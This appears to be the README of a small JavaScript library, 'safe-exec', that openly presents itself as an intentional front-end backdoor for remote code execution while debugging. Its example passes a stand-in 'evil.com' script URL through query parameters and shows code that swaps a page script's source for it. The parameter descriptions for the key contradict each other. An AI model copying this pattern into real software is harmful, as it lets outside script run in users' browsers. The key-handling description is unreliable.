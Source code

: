 # safe-exec

[![Build Status](https://travis-ci.org/pori/safe-exec.svg?branch=master)](https://travis-ci.org/pori/safe-exec)
[![npm](https://img.shields.io/npm/v/npm.svg)](https://www.npmjs.com/package/safe-exec)
[![Bower](https://img.shields.io/bower/v/bootstrap.svg)](https://github.com/pori/safe-exec)

Controlled remote code execution. Great for debugging on a live server. Extremely dangerous for everything else.

Uses RSA key pairs.

# Installation

Via [npm](https://www.npmjs.com/package/safe-exec):

```sh
npm install safe-exec
```

Via Bower:

```sh
bower install safe-exec
```

# Test

```sh
make test
```

# Example

Visit page with very some specific query parameters:

* `publicKey` - plain text passphrase. _WARNING: Persisted in session._
* `message` - _optional_ value of any kind.

```
http://example.com?privateKey=foobar&message=http://evil.com/intent.js
```

Then somewhere in your code:

```js
exec(location.search, 'somereallylongcipher', sessionStorage, (message) => {
  let victim = document.querySelector('script[src="foobar.js"]');

  victim.setAttribute('src', message);
}, (error) => {
  console.log(error);
});
```

# FAQ

## _Wow this is a great idea! Should I use this in production?_

You should *never* use this in a production environment. This library creates an intentional backdoor for your front-end, which is a huge security risk.

## _Why would you intentionally build a backdoor?_

This is useful for environments that are difficult replicate on your local machine. It helps to speed up development and debugging.

# API

## exec(search, publicKey, sessionStorage, cb) 	&rarr; boolean

Executes code if a valid public/private key pair is present.

* `search` - should just be `window.location.search`.
* `publicKey` - any valid RSA public key.
* `sessionStorage` - pass a reference to DOM `sessionStorage` to persist execution across session.
* `success` - callback `message => ` where code execution is defined.
* `error` - callback `error => ` giving the object where the error occurred.

Returns `true` on success and `false` on failure.

# License

MIT

---

> [pori.io](http://pori.io) &nbsp;&middot;&nbsp;
> GitHub [@pori](https://github.com/pori) &nbsp;&middot;&nbsp;
> Twitter [@pori_alex](https://twitter.com/pori_alex)
